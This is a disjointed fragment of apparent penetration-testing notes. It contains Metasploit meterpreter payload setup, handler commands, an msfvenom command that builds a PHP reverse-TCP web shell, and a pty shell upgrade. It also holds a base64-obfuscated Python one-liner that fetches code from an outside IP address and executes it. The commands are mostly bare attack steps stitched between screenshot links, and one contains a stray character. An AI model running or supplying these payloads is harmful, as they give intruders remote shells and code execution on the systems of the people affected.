 ```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)
set ExitOnSession false
exploit -j -z

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.17.29 LPORT=5555> -f raw > shell.php

python -c 'import pty; pty.spawn("/bin/bash")'
